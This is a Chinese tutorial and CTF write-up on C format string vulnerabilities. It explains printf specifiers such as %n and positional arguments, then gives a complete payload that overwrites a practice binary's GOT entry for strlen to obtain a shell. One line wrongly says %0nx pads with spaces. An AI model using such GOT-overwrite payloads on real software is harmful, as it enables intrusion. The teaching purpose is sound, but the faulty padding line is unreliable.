

# 格式化字符串漏洞
## 0.一个坑爹的问题 
这个问题与主题没太大关系，还是提一提吧  
在ubuntu16.10后gcc编译时默认加上了参数`-pie`，也就是运行地址随机化，可以更好的抵挡攻击，防pwn，但是出题就比较坑爹了  
只需要编译时加上参数`-no-pie`即可  
## 1. 格式化字符串简介
>格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。

以上摘自wiki:[格式化字符串](https://zh.wikipedia.org/wiki/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2)  
为了格式化字符串，需要使用占位符用于指明输出的参数值如何格式化。  
在c语言中的printf这一大类函数中（包括vprintf，sprintf等），使用%d,%c,%s等占位符对字符串进行格式化  
然而，一些特殊的用法往往被人们忽略了  
* 控制输出长度  
`%nx`表示按16进制输出，不足n位的话在字符串前面补空格  
`%0nx`表示按16进制输出，不足n位的话在字符串前面补空格  
其它占位符同理  
* 指定参数  
`%n$x`表示把第n个参数按16进制输出  
注：  
a. 指定参数可以与控制输出长度结合使用，如`%n$08x`  
b. 指定参数不影响正常的输出，若执行`printf("%3$d.%d.%d.%d", 1, 2, 3);`，则输出3.1.2.3  
c.在x86下指定参数时printf认为每个参数的长度为4字节，所以在碰上`long long`这样8字节或者更多的参数时，指定参数可能会出错，需要具体情况具体分析  
* 保存输出字符的个数
可使用%n保存输出字符的个数到变量中  
`printf("1234%n", &a)`  
由于输出了4个字符，将4写入a
注:  
a.可以与指定参数结合使用  
b.后面的参数为变量的地址，而不是变量的本身（好像是废话）  

## 2.漏洞原因
在c语言中，往往有输出字符串的场景，当输出一个字符串的一般写法为  
```C
printf("%s", str);
```
当一些程序员偷懒后就成为了  
```C
printf(str);
```
若是攻击者掌握了字符串，那么可以利用1中的特殊用法，对你的程序做一些奇怪的事情，从而pwn掉你的程序  

## 3.利用
由1可知道，%n可以写入数据，%nc等用法可以控制输出字符的长度从而控制数据的数值，结合指定参数，便可以对4字节内存进行读写  
下面以一个题为例来说明  
丢进ida后明显可以看到  
```C
read(0, str, 1023);
puts("Haha, your input is:");
printf(str);
```
明显的一个格式化字符串漏洞  
又看到  
```C
void getflag()
{
    system("/bin/sh");
}
```
发现没有地方调用getflag，考虑修改got表将下面的strlen的函数地址改为getflag的地址（其实不给getflag函数也可以做到，先考虑简单情况）。  
首先先查询str相当于printf的第几个参数  
命令中输入  
```bash
(python -c "print('aaaa.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x')";)|./repeat
```
执行后结果为  
  
a对应的16进制ascii码为`61`，由此可以看出第4个参数为str  
执行下列语句
```bash
(python -c "print('aaaa.%4\$08x')";)|./repeat
```
结果为  
  
验证自己的语句为正确的  
注:
1. 在python中$需要使用\进行转义输出，应为`\$`  
2. python3全体都是unicode，对于一些不可见字符的处理存在问题，故使用python进行操作  

打开终端，输入  
```bash
readelf -r repeat | grep strlen
```
结果为  
`0804a01c  00000607 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0`  
可以看出strlen在got表中的位置为`0x0804a01c`  
注:
1. readelf命令可以查看elf文件信息，-r表示显示可重定位段的信息  
2. 程序执行动态链接库的函数时，先跳转到plt表，然后跳转到got表  

ida可以看到下图  
  
可以得知getflag的地址为`0x0804853b`  

接下来构造字符串更改strlen函数地址即可  
输入如下命令  
```bash
(python -c "print('\x1c\xa0\x04\x08\x1d\xa0\x04\x08\x1e\xa0\x04\x08%47c%4\$hhn%74c%5\$hhn%1919c%6\$hn')";cat) | ./repeat
```
即拿到shell  
注:
1. %n写入4字节，%hn写入2字节，%hhn写入1字节
2. 由于需要写入`0x0804853b`，数据过大，分成三次写入，分别写入0x3b， 0x85, 0x0804（否则会输出时间过长，甚至段错误）  
3. 后面的数值可以自己计算，写入0x3b就应该保证前面输出了0x3b个字符，由于前面已经输出了12个字符，剩下只需要再输出0x3b - 12 = 47个字符。在需要写入0x85时只需要再输出0x85 - 0x3b = 74个字符，下面的同理  
